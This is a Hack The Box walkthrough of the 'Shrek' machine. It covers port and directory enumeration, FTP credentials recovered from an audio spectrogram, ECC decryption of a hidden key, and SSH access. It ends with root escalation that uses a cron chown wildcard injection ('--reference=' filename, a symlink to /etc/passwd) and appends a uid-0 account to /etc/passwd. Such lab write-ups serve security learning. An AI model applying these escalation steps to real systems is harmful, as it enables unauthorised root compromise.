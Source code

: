 ![logo](/logo.png)

# [Shrek- BOX]  
Hi folks, today I am going to solve an Hard rated hack the box machine which was released on 25 Aug 2017 machine on HTB,Shrek created by [SirenCeol](https://app.hackthebox.com/users/2277) .So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *spectogram
  *chrown
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/shrek 10.10.10.47
```

###### Output 

![](/Linux/Linux-Hard/Shrek/Screenshots/nmap.png)

```sh
nmap -sV -sC -oA nmap/shrek 10.10.10.47                                                                                           ─╯
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 19:16 EAT
Nmap scan report for 10.10.10.47
Host is up (0.34s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:a7:95:95:5d:dd:75:ca:bc:de:36:2c:33:f6:47:ef (RSA)
|   256 b5:1f:0b:9f:83:b3:6c:3b:6b:8b:71:f4:ee:56:a8:83 (ECDSA)
|_  256 1f:13:b7:36:8d:cd:46:6c:29:6d:be:e4:ab:9c:24:5b (ED25519)
80/tcp open  http    Apache httpd 2.4.27 ((Unix))
|_http-title: Home
|_http-server-header: Apache/2.4.27 (Unix)
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 135.52 seconds
```


looking at the results  we find out that there are 3 ports open and its a `Unix`and its running an `Apache server`. 

port[21]-ftp
port[22]-ssh
port[80]-  httpd 2.4.27

so when we go the browser at [http://10.10.10.47](http://10.10.10.47) i find a shrek web browser.

![](/Linux/Linux-Hard/Shrek/Screenshots/shrek.png)

I find nothing of intresting so let me start a gobuster so that i can enumerate directories

```sh
gobuster dir -u http://10.10.10.47 -w /usr/share/wordlists/dirb/common.txt -k --no-error
```

![](/Linux/Linux-Hard/Shrek/Screenshots/gobuster.png)

i find a directory named upload and checking on it i find intresting `php`

![](/Linux/Linux-Hard/Shrek/Screenshots/uploads.png)

lets get all the files here and start looking at them one by one

```sh
wget http://10.10.10.47/uploads/ -r -np -nH --cut-dirs=1 -R "index.html*"
```

- `-r`: Recursively download files.
- `-np`: No parent; prevents `wget` from following links to parent directories.
- `-nH`: No host directories; prevents `wget` from creating a directory structure based on the domain name.
- `--cut-dirs=1`: Skips the specified number of directory levels from the beginning of the directory structure. Adjust the number based on how deep the directory structure is.
- `-R "index.html*"`: Excludes `index.html` files, which are often unnecessary.

![](/Linux/Linux-Hard/Shrek/Screenshots/wget.png)

a file named `secret_ultimate.php`. Reveal some useful information, when downloaded with it revaels about another directory named `/secret_area_51/` The file is a copy of the `php-reverse-shell.php` webshell that comes in `/usr/share/webshells/php` on Kali by default, except there’s an extra variable created at the top.

![](/Linux/Linux-Hard/Shrek/Screenshots/nanosecrete.png)

![](/Linux/Linux-Hard/Shrek/Screenshots/secrete.png)

so lets download the `mp3`  its an `All star` let me import it to audacity 

![](Linux/Linux-Hard/Shrek/Screenshots/audacity.png)


What’s interesting there is at the end the song fades out, and then there’s some extra static at the end [Wikipedia](https://en.wikipedia.org/wiki/All_Star_(song)) confirms that the song is 3:21 long, so the stuff that sounds like static at the end is definitely interesting. I’ll change it from Waveform to Spectrogram in the settings bar on the left:

![](/Linux/Linux-Hard/Shrek/Screenshots/waveform.png)

once you change spectogram the you increase the max frquency by a factor of 10 meaning being 2200 to 22000 then expand the waveform and now there’s a clear message in the noise.

![](Linux/Linux-Hard/Shrek/Screenshots/stenegrophy.png)

from their we can see the password of an ftp lets log in to the ftp with the username `donkey` and the password `d0nk3y1337!`

![](/Linux/Linux-Hard/Shrek/Screenshots/ftp.png)

There are 31 `.txt` files, and `key`

lets download all this 31 files in my local machine by doing this

```sh
mget * a
```

turned to these `.txt` files. On first glance, each of the `.txt` files contain what looks like a single base64 encoded string. Decoding it just dumps garbage. I wanted to verify that each file was a single string, so I ran `wc` on each file

```sh
wc *.txt
```

![](/Linux/Linux-Hard/Shrek/Screenshots/wc.png)

Two of the files have three words! The first one has a bunch of `base64`, some spaces, then a short base64 word, more space, and then a long one.

![](/Linux/Linux-Hard/Shrek/Screenshots/strings.png)

I open the two `.txt` i find a middle string `UHJpbmNlQ2hhcm1pbmc=` lets decode.

```sh
echo "UHJpbmNlQ2hhcm1pbmc=" |base64 -d 
```

![](/Linux/Linux-Hard/Shrek/Screenshots/echo.png)

The second file had a similar pattern, though the string in the middle was longer, and it decodes to binary data

![](/Linux/Linux-Hard/Shrek/Screenshots/wcecho.png)

```sh
echo "J1x4MDFceGQzXHhlMVx4ZjJceDE3VCBceGQwXHg4YVx4ZDZceGUyXHhiZFx4OWVceDllflAoXHhmN1x4ZTlceGE1XHhjMUtUXHg5YUlceGRkXFwhXHg5NXRceGUxXHhkNnBceGFhInUyXHhjMlx4ODVGXHgxZVx4YmNceDAwXHhiOVx4MTdceDk3XHhiOFx4MGJceGM1eVx4ZWM8Sy1ncDlceGEwXHhjYlx4YWNceDlldFx4ODl6XHgxM1x4MTVceDk0RG5ceGViXHg5NVx4MTlbXHg4MFx4ZjFceGE4LFx4ODJHYFx4ZWVceGU4Q1x4YzFceDE1XHhhMX5UXHgwN1x4Y2N7XHhiZFx4ZGFceGYwXHg5ZVx4MWJoXCdRVVx4ZTdceDE2M1x4ZDRGXHhjY1x4YzVceDk5dyc=" |base64 -d
```

![](/Linux/Linux-Hard/Shrek/Screenshots/binary.png)

I had a pretty good idea at this point that I had some cipher text and a password, but knowing what algorithm to use was kind of a random guess. It turns out that this is using ECC crypto, and there’s a Python library `seccure` (note two c’s) that will handle the decryption.

```sh
import seccure

cipher = b'\x01\xd3\xe1\xf2\x17T \xd0\x8a\xd6\xe2\xbd\x9e\x9e~P(\xf7\xe9\xa5\xc1KT\x9aI\xdd\\!\x95t\xe1\xd6p\xaa"u2\xc2\x85F\x1e\xbc\x00\xb9\x17\x97\xb8\x0b\xc5y\xec<K-gp9\xa0\xcb\xac\x9et\x89z\x13\x15\x94Dn\xeb\x95\x19[\x80\xf1\xa8,\x82G`\xee\xe8C\xc1\x15\xa1~T\x07\xcc{\xbd\xda\xf0\x9e\x1bh\'QU\xe7\x163\xd4F\xcc\xc5\x99w'
key = b"PrinceCharming"
print (seccure.decrypt(cipher, key))

```

![](/Linux/Linux-Hard/Shrek/Screenshots/import.png)

There is a key file that can be found on the FTP server. Using the above credentials, it is possible
to SSH in.

```sh
openssl rsa -in key -out id_rsa
```

![](/Linux/Linux-Hard/Shrek/Screenshots/openssl.png)

and just way we get a ssh shell and a `user flag`

![](/Linux/Linux-Hard/Shrek/Screenshots/userflag.png)

# Privillage Escalation

I have seen a cron that is running `chown nobody:nobody *` in `/usr/src`. I can take advantage of a wildcard exploit here. There’s a great [paper on exploiting wildcards](https://www.exploit-db.com/papers/33930) in Unix (and Linux) from Leon Juranic from 2014. The issue is this. When I run `ls *`, what the shell is doing is expanding out that `*` to a list of all the files in the directory. So if I have a directory with files `a.txt` and `b.txt`, and I run `ls *`, the system ends up running `ls a.txt b.txt`.

This gets tricky if I add another file and name it `-l`. Now it runs `ls a.txt b.txt -l`, which ends up running `ls -l` and printing the details for the two `.txt` files.

As the paper shows, I can abuse this with `chown` using the `--reference=[file]` option. I can change any file on the system to be owned by any other user, as long as I have a file owned by that user to reference.

Immediately what comes to mind for me is taking ownership of a file like `/etc/passwd` as sec. I need a file to be the reference, so just create one. Then I need the file that will be interpreted as a flag. I’ll name it `--reference=test`. To create a file with this weird name, I’ll run `touch -- --reference=test`. In Linux, `--` tells the shell that anything that follows is a filename, and not an argument. With that in place, I’ll create a symbolic link to `passwd`:

![](/Linux/Linux-Hard/Shrek/Screenshots/symlink.png)

Now I just need to add a root user to `/etc/passwd`. I’ll create a hash

![](/Linux/Linux-Hard/Shrek/Screenshots/srcpasswd.png)

Now I’ll add the string to `passwd`, with uid and gui both 0 for root

```
echo 'leshack:$1$R4pPJIGP$D288RuZhEwWJxCzrECS2L/:0:0:pwned:/root:/bin/bash' >> /etc/passwd
```

so i log in with the created password and name as `leshack`:`leshack`

![](/Linux/Linux-Hard/Shrek/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------


